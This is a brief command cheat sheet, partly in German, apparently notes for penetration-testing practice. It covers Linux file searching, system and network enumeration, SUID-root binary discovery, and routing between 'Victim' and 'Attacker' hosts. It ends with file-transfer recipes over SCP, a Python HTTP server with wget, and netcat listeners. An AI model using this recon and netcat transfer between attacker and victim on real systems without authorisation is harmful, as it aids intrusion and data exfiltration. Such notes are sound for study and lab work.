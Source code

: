 ## Useful Commands I don't know:
### Files:

```bash
# Klartextsuche
find / -iname "test" -type f/d/l/s
```

```bash
# Pipes:
# ------
# Überschreibung:
echo "hey" > test.txt
# Anhängen:
echo "hey" >> test.txt
```

```bash
# Suche in Dateien
grep -i "text" .bash_history
```

```bash
# Unterschied zwischen 2 Dateien
comm test_1.txt test_2.txt
vim -d
```

```bash
# Ausgabe ersten Zeilen
head -n 3
```

```bash
# Ausgabe letzten Zeilen
tail -n 3
```

```bash
# Find files with SUID bit set:
find / -user root -perm -4000 -print 2>/dev/null | head -20
```

### System information:

```bash
# Finden von Programmen
which

# Aktueller User
whoami
```

```bash
# Kernel Version
uname -a

cat /etc/issue
```

```bash
# Rechte von user
id
```
### Network information

```bash
# See open ports
netstat -alnu
```

Add Gateway (if subnet is not reachable). The host 192.168.1.2 can reach 192.168.1.1 (The proxied Webserver) but not 192.168.2.0/24 and therefore not 192.168.2.2 (The machine):
```bash
# Victim:
ip route add 192.168.1.2 via 192.168.1.1

# Attacker:
ip route add 192.168.2.2 via 192.168.1.1
```

```bash
# See all open connections
lsof -ai -p "$pid"
```

```bash
# Find IP for Domain
nslookup domain.local

whois domain.local
```
## File Transfer:

#### SCP:

Step 1: Enable SSH on Attacker
```bash
sudo apt update

sudo apt install openssh-server

sudo systemctl start ssh

sudo systemctl enable ssh
```

Step 2: Download file via SCP:
```bash
scp file.txt kali@192.168.1.2:/home/kali
```


(Upload):
```bash
scp kali@192.168.1.2:/home/kali/file.txt
```

#### Python:

Step 1: HTTP Server on Attacker (or victim if upload):
```bash
python -m http.server 9000
```

Step 2: Download file:
```bash
wget 192.168.1.2:9000/file.txt
```

#### NC:

Step 1: Create listener on receiver:
```bash
nc -lvnp 4444 > file.txt
```

Step 2: Send file:
```bash
nc 192.168.1.2 4444 < file.txt
```